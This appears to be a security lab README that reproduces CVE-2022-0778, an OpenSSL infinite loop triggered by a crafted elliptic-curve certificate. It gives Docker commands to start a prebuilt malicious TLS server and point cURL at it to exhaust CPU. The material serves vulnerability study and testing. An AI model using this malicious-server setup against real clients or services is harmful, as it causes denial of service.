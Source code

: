# OpenSSL Infinite Loop Leads to DoS (CVE-2022-0778)

[中文版本(Chinese version)](README.zh-cn.md)

OpenSSL is a software library for applications that secure communications over computer networks against eavesdropping or need to identify the party at the other end.

A flaw was found in OpenSSL. It is possible to trigger an infinite loop by crafting a certificate that has invalid elliptic curve parameters. Since certificate parsing happens before verification of the certificate signature, any process that parses an externally supplied certificate may be subject to a denial of service attack.

Reference links:

- <https://github.com/drago-96/CVE-2022-0778>
- <https://www.cnblogs.com/logchen/p/16030515.html>
- <https://catbro666.github.io/posts/83951100/>
- <https://github.com/yywing/cve-2022-0778>

## Vulnerability environment

Execute following command to start a server:

```
docker compose up -d
```

## Reproduce vulnerability

Firstly, use [this project](https://github.com/vulhub/cve-2022-0778) to build and run an evil server. If you don't have the Golang compiler, just use the Docker image:

```
docker run -it --rm -p 12345:12345 yywing/cve-2022-0778 --addr 0.0.0.0:12345
```

Then you can monitor the CPU usage inside the container through `top`:

```
docker compose exec curl top
```

This vulnerability is available when parsing the certificate, so we can use the cURL to demonstrate it.

Entry the environment, and use the cURL to browse the evil server that started before:

```
docker compose exec curl bash
curl -k https://host.docker.internal:12345
```

At this point, cURL will be caught in an infinite loop, and CPU resources will be exhausted unexpectedly:

![](1.png)
